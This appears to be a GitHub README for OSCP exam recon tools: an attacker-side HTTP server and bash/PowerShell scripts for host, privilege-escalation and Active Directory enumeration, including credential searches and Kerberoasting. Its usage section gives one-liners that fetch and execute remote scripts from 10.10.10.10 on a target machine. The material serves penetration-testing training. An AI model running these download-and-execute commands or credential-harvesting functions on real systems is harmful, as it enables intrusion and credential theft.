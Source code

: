# OSCP Aux Recon Tools

A small set of tools developed to pass my OSCP, this set consists of:
Temporary HTTP server and reconnaissance scripts in bash and PowerShell, which work together to facilitate reconnaissance and logistics tasks during machines and CTFs resolution.


## Usage

1. Run the http temp server on Kali
```bash
python3 ./httpTempServ.py
```

2. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
